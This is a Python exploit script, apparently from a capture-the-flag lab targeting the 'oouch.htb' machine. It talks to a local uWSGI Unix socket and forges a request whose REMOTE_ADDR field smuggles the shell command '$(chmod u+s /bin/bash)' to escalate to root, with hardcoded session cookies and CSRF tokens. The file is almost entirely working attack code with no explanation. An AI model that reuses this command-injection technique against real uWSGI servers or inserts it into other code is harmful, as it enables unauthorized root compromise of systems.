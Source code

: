 ```python


def send_uwsgi_request(socket, header_content):
    data = encode_uwsgi_vars(header_content)
    header = struct.pack(
        '<BHB',
        0,  # modifier1: 0 - WSGI (Python) request
        len(data),  # data size
        0,  # modifier2: 0 - always zero
    )
    print(header)
    socket.sendall(header)
    socket.sendall(data)
    print(socket.sendall('csrf_token=Ijg3YjgyMTRhNDQxZTJhNWUyMTQ1NGI1OTIzYjNjOGEyYzAzMDFkMGQi.Xlv6qg.cxrU6xp-WQWDDj5_IzD-iF3D-70&textfield=alert&submit=Send'.encode('utf-8')))

def dump_from_socket(socket, width=32):
    while True:
        chunk = socket.recv(width)
        print(chunk)
        if not chunk:
            break
        print('%-*s  %s' % (
            width * 2,
            hexlify(chunk).decode(),
            ''.join(b if b.isprintable() else '.' for b in chunk.decode('ascii', 'replace'))
        ))


def talk_to_uwsgi(host, port, path):
    #s = socket.socket()
    #s.connect((host, port))
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/tmp/uwsgi.socket")
    print(s)
    send_uwsgi_request(s, {
        'PATH_INFO': path,
        'HTTP_HOST': 'consumer.oouch.htb',
        'REQUEST_METHOD': 'POST',
        'HTTP_COOKIE': 'session=.eJy9kb9OAzEMxl8lzcJSIV_-p0-BYGCAqnIcpz1xvUNNKoaq706AEbEggRfbsn_6_MkXuSsT1gNXuXm6SNF6kkeuFfcs1_JuYqwspmUvxlm0RSBRH4p2GKt47Tu3cntdf-fueT_WdsI2LrN4OH9C5TytxCNPtBxZ1Hl5q4Tz6pf8jWD6Ldu4NvEsf8D_zHJa0n9L4jQSf4hu1_3PJ64HuSk4Ve7tmOVGGkiKoh4yhaJ7qKjAQ7A-MJG2jqwyBDbZHC0mg4N22igXSibkpDNYn4pz5CK5HpGyRQs2AKUSjbOANCQXQoy-AID3JRVIznkXiy3edBNUT2XXlhee-z3Bp6AGg8YMrNByr61JNiqdNAVUBBqGDLlz58qnLxODvL4Dkk_jDQ.XlvGhA.DK61IKezdy9GLX14VLDcSgPviD4',
        'QUERY_STRING': '',
        'CONTENT_LENGTH': 130,
        'REMOTE_ADDR': '$(chmod u+s /bin/bash)',
        'CONTENT_TYPE': 'application/x-www-form-urlencoded'
    }.items())
    dump_from_socket(s)
    s.close()

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument('--host', default='localhost')
    ap.add_argument('--port', type=int, default=9090)
    ap.add_argument('path')
    args = ap.parse_args()
    talk_to_uwsgi(host=args.host, port=args.port, path=args.path)


if __name__ == '__main__':
    main()
```